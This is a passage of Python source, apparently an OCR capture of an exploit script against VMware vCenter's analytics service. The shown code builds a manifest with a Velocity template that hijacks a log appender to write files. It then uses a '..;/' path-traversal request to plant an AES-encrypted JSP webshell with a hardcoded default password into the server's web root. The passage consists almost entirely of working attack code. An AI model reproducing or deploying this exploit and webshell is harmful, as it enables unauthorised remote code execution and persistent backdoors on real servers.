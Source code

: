 ```python
                      <value xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="resultSetMapping">
            <resourceItemToJsonLdMapping>
             <forType>ServiceInstance</forType>
            <mappingCode><![CDATA[  
             #set($appender = $GLOBAL-logger.logger.parent.getAppender("LOGFILE"))##
             #set($orig_log = $appender.getFile())##
             #set($logger = $GLOBAL-logger.logger.parent)##  
             $appender.setFile("%s")##  
             $appender.activateOptions()## 
             $logger.warn("%s")## 
             $appender.setFile($orig_log)##  
             $appender.activateOptions()##]]>
            </mappingCode>
            </resourceItemToJsonLdMapping>
          </value>
         </value>
       </entry>
      </resultSetMappings>
    </indepedentResultsMapping>
   </cdfMapping>
   <requestSchedules>
    <schedule interval="1h">
      <queries>
       <query>vir:VCenter</query>
      </queries>
    </schedule>
   </requestSchedules>
 </manifest>""" % (webshell_location, webshell)
  
 return manifestData
 
def arg():
 parser = argparse.ArgumentParser()
 parser.add_argument("-t", "--target", help = "Target", required = True)
 args = parser.parse_args()
 target = args.target
 print("[*] Target: %s" % target)
 return target
 
def exec():
 target = arg()
 # Variables
 webshell_param = id_generator(6)
 log_param = id_generator(6)
 agent_name = id_generator(6)
 shell_name = "Server.jsp"
 webshell = """<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>"""
 
 webshell_location = "/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/%s" % shell_name
 webshell = str_to_escaped_unicode(webshell)
 manifestData = generate_manifest(webshell_location,webshell)
 print("[*] Creating Agent")
 createAgent(target, agent_name, log_param)
 url = "%s/analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=%s&_i=%s" % (target, agent_name, log_param)
 headers = {"Cache-Control": "max-age=0", 
          "Upgrade-Insecure-Requests": "1", 
```